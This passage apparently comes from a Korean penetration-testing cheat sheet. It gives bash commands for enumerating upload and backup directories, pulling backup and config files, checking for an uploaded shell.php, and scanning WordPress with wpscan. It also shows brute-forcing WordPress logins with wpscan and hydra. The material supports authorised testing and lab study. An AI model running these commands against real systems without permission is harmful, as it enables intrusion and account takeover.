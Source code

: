 #### /upload/, /uploads/ 발견시

```bash
# 업로드 디렉토리 확인
curl http://{IP}/upload/
curl http://{IP}/uploads/
gobuster dir -u http://{IP}/upload/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

# 업로드된 파일들 확인
curl http://{IP}/upload/test.php
curl http://{IP}/uploads/shell.php

# 업로드 기능 찾기
grep -r "upload" gobuster-80.txt
curl http://{IP}/fileupload.php
curl http://{IP}/upload.php
```

#### /backup/, /backups/ 발견시

```bash
# 백업 파일들 확인
curl http://{IP}/backup/
curl http://{IP}/backups/
gobuster dir -u http://{IP}/backup/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x zip,tar,gz,bak,sql

# 일반적인 백업 파일명
curl http://{IP}/backup/database.sql
curl http://{IP}/backup/backup.zip
curl http://{IP}/backup/config.bak
curl http://{IP}/backups/site.tar.gz
```

### 🎭 CMS별 전문 공격

#### WordPress 발견시

```bash
# WordPress 버전 확인
curl http://{IP}/wp-admin/install.php
curl http://{IP}/readme.html
curl http://{IP}/wp-includes/version.php

# WPScan 실행
wpscan --url http://{IP} --enumerate p,t,u
wpscan --url http://{IP} --enumerate p --plugins-detection aggressive
wpscan --url http://{IP} --enumerate u --usernames admin

# WordPress 로그인 브루트포스
wpscan --url http://{IP} --usernames admin --passwords /usr/share/wordlists/rockyou.txt
hydra -l admin -P /usr/share/wordlists/rockyou.txt {IP} http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR"

# 플러그인 디렉토리 확인
gobuster dir -u http://{IP}/wp-content/plugins/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
curl http://{IP}/wp-content/plugins/
```
